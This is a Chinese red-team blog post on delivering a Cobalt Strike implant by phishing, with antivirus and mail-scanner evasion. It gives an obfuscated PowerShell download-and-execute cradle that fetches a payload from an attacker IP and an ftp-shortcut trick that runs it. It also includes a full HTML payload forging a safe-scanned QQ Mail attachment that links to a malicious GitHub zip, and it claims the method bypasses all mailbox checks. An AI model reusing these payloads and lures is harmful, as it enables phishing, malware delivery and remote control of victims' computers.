 0x01 前言
=======

先申明利益相关方，本文章仅为思路分享，品牌关键处会打码处理，不过确实挺有意思的，某护也快开始了，希望能够提供一些借鉴意义。

0x02 ByPass AV
==============

将恶意文件，上传到github项目

```php
https://github.com/punch0day/cs_test
```

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1da1fd8eae3deb3423c4850f5120d134ac522003.png)

有经验的师傅，一眼就可以看出，这是Link钓鱼

但是某压缩包是检测为安全的

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-0b72d9c16bcaedb9adc4a579d0d86a462e8d5119.png)

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9fe0fa41ff7f2a5fcadb6153864f1a0bb9b71561.png)

VirusTotal全球57家厂商，只有1家能够检测出来，过国内所有杀软不在话下，篇幅原因，powershell混淆技巧不细讲，师傅们可以先关注我，留作下次分享

**源码如下：**

```php
aaa.dll
#ftp快捷方式运行时，会加载此dll
!cmd /c po^we^rs^he^ll -ex^ec b^yp^ass .\\bbb.ps1
```

```php
bbb.ps1
#cs上线
powershell.exe -nOp -w hIdDEn -c $ExeCuTiOnCoNtExT.InvOkeCoMmAnD.NeWScriPtBlOcK("IE##X ((nE##w-ObJe##ct ('nE##T.wEB##cLiEnT')).('doWnl##OadStRiNg').inVo##KE('ht'+'tp:/'+'/19'+'2.16'+'8.20'+'6.1'+'32:8'+'0/a'))".Replace("##",""))
```

（ps：可过所有静态查杀，动态的查杀看情况，像360杀毒（非卫士），win defender可过，国内某些杀软一调用powershell进程就报可疑）

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e660d5ab61b3fd2d67cd8e9aba1ff786c4a9e076.png)

快捷方式改为以上这样就行了，原理上是利用了ftp命令模式下，输入!会命令执行，**这个是其他师傅的方法，非原创，但是bypass是自己做的**

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f766f3498fbf81be2225187409c7bcc85ae9d62c.png)

只要一打开快捷键，立马cs上线

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-5d11cb9b66d3ba09f6c2457848d7a8bff76b0e99.png)

```php
参考文献：
【2022HVV系列】|9\-红蓝对抗之钓鱼篇：常见钓鱼思路总结
https://www.77169.net/html/291698.html
PowerShell攻击的混淆方法总结
http://www.mchz.com.cn/cn/service/Safety-Lab/info_26_itemid_3320.html
```

0x03 ByPass 邮箱附件检测
==================

上传到github上后，选择将code下载为zip格式，下载到本地后，找到游览器的历史下载记录，并复制下载链接

```php
https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main
```

打开某邮箱，找到一个带有附件的邮件

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-b10fa3b47d95b3f7333fc33c990bb883548de70a.png)

复制附件的html代码

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-27aa7b3db33af82d768f2246fed305920799e107.png)

发送邮件，进行测试，选择“格式”插入html，粘贴html代码

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-35caafddca80474a12b08fdece3f4a87106cd90c.png)

找到“下载”的&lt;a&gt;标签 进行修改 改为&lt;a href=”刚才github的下载链接”&gt;

**整个payload如下：**

```php
<div id="qm_con_body"><div id="mailContentContainer" class="qmbox qm_con_body_content qqmail_webmail_only" style="opacity: 1;"><div id="attachment" a="" b="false" style="padding:2px;" class="attbg" ui-type="attCon"><div style="padding:6px 10px 10px 8px;" class="txt_left"><div style="height:14px;">            <b style="font-size:14px;"><img src="https://rescdn.qqmail.com/zh_CN/htmledition/images/spacer1e9c5d.gif" align="absmiddle" class="ico_att showattch" border="0" style="margin:-3px 2px 0 0;">附件</b>(<span id="attachmentCount">1</span> 个)</div></div><div style="padding:0 8px 6px 12px;background:#fff;_height:60px;line-height:140%;"><div class="graytext clear" style="padding-top:12px; padding-bottom:5px"><span style="color:#000;font-weight:bold;font-size:12px;">普通附件</span>                <span id="span_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_safe"> (<span class="ico_Avira"></span>已通过电脑管家云查杀引擎扫描)</span>                        </div><div class="att_bt attachitem"><div class="ico_big"><a id="AttachIconAZL0012_1yrN1r~M_twu3KkAAIjVLc50" attach="1" attid="请重点关注.docx" viewmode="doc" url="/cgi-bin/viewdocument?sid=lGnwl-6PmrgMcwZk&amp;filename=1.docx&amp;mailid=1&amp;retry=true&amp;t=attachments_content&amp;ef=qfunc&amp;s=yozo&amp;fromattach=1" ck="previewAttach2" idx="0" filename="请重点关注.docx" down="/cgi-bin/download?mailid=1&amp;filename=1.doc" iconurl="/zh_CN/htmledition/images/xdisk/ico_mid/fu_doc.gif" filebyte="15360" sparse2onlinedocurl=""><img style="width:auto;" src="/zh_CN/htmledition/images/xdisk/ico_mid/fu_doc.gif"></a></div><div class="name_big">            <span player="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">请重点关注.docx</span><span class="graytext">&nbsp;(15K<span id="span_attachIndex_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_cd690305b12fa8de1acdd0ee2fc76181" style="display:none">, <span style="color: #C00;">附件包含病毒，请勿下载打开 </span></span>)</span><div class="down_big"><a ck="previewAttach" select="1" sparse2onlinedocurl="" down="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">预览</a>&nbsp; <a href="https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main">下载</a>&nbsp;&nbsp; <a style="" flag="0" class="needSetFlag" attachkey="1|1.docx|1.docx|15360"><span>收藏</span></a><span style="display:none;" class="graytext"><span>已收藏, </span><a>查看</a></span>&nbsp;&nbsp; <a ui-type="netdiskBind" attid="1|1|1" class="netdisk_hide"><span>转存</span><span class="bind_down_icon"></span></a></div></div></div></div></div></div></div>
```

![图片](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-53cd6494e4be42059e73c62b156a075195a7c33f.png)

**亲测可行，不管是企业邮箱，个人邮箱，桌面端，移动端，全部都是本地直接下载，附件不会经过邮箱的任何安全检测，直接bypass！**